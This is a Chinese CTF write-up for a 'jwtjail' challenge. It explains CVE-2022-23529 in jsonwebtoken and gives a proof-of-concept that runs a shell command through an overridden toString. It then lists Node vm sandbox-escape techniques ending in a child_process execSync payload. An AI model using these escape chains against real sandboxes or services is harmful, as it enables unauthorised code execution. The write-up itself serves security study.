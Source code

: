 ```yaml
---
tags: 
  - JWT
  - Node VM 逃逸
  - JS Proxy
---
```


# jwtjail

## 背景

题目背景是 [CVE-2022-23529](https://cve.report/CVE-2022-23529)。在 `jsonwebtoken < 9.0.0` 中，对于`jwt.verify` 的 `secretOrPublicKey` 参数如果能够控制那么可以覆写其 toString 方法达成恶意利用。其漏洞点在于：
```js
if (!options.algorithms) { // undefined
  options.algorithms = ~secretOrPublicKey.toString().indexOf('BEGIN CERTIFICATE') || 
	~secretOrPublicKey.toString().indexOf('BEGIN PUBLIC KEY') ? PUB_KEY_ALGS :
	~secretOrPublicKey.toString().indexOf('BEGIN RSA PUBLIC KEY') ? RSA_KEY_ALGS : HS_ALGS;
}
```
CVE Payload：
```js
const jwt = require('jsonwebtoken');  // version < 9.0.0
token = jwt.sign({},"foo");
obj = { 
  toString : ()=> {
    console.log(require('child_process').execSync("whoami").toString());  
    process.exit(0)  
  }
};
jwt.verify(token,obj);
```

## VM 逃逸

但在新版本中，在漏洞点之前加入了对于 secretOrPublicKey 的检验，并取消了 toString 调用，题目环境也是 9.0.0 无漏洞版本。而且对于前面还套了一个 vm 模块。

首先是vm逃逸，其主要思路就是获得到一个沙箱外的对象。

写一些拿沙箱外对象的方法：

- 没有其他 ctx 限制下 `this` 拿的就是一个沙箱外的对象引用。 
- 直接获取 ctx 中的引用对象，类似数字，布尔的值传递不行。
- sandbox 为 null 时可以考虑用 `arguments.callee.caller` 拿函数的调用者，沙箱对象在外部调用时显然是外部的作用域。
- 同上，也可以写 Proxy 对象来劫持属性从而触发。

拿到了对象，下一步便是利用，可以直接使用 `p=obj.constructor.constructor('return process')()` 拿到 process 对象，攻击载荷就是 `p.mainModule.require('child_process').execSync('whoami').toString()`。

其中 mainModule 能够获取关联进程的主模块信息，然后执行 shell。
